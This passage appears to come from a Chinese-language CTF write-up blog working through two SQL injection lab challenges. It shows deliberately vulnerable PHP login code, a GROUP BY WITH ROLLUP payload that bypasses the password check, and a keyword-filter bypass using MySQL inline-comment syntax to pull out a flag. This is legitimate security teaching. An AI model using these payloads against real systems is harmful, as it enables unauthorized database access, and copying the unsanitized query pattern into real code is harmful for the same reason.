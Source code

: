 ```php
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```

简单说明：

```
preg_match(string $pattern , string $subject)
匹配字符串 /i不区分大小写 返回值有int(0)未匹配到 int(1)匹配到 和false匹配错误
```



大致思路：首先看过滤的关键字，那就没办法用`union`联合查询一个可控的pwd。那就把希望寄托于将`$key['pwd']==$_POST['pwd']` 构造成`null=null`的等式 ，查询资料后得到

```
group by with rollup 
对某个字段汇总（聚合）新增的一条记录字段本身内容为NULL
```



[![group by with rollup](https://isky0t.github.io/images/shiyanbar04group.png)](https://isky0t.github.io/images/shiyanbar04group.png)
构造提交payload

```
uname=' or 1=1 group by pwd with rollup limit 1 offset 2 #&pwd=
```



## 简单的sql注入

> 到底过滤了什么东西？通过注入获得flag值（提交格式：flag{}）

简单测试过滤了`and select union from where # -- informaction`等关键词
使用`/*!select*/`这样的MySQL特性绕过
构造payload得

```
1111'  /*!union*/ /*!select*/ flag /*!from*/ flag /*!where*/ '1'='1
```



[![easy sql](https://isky0t.github.io/images/shiyanbar05sqleasy.png)](https://isky0t.github.io/images/shiyanbar05sqleasy.png)
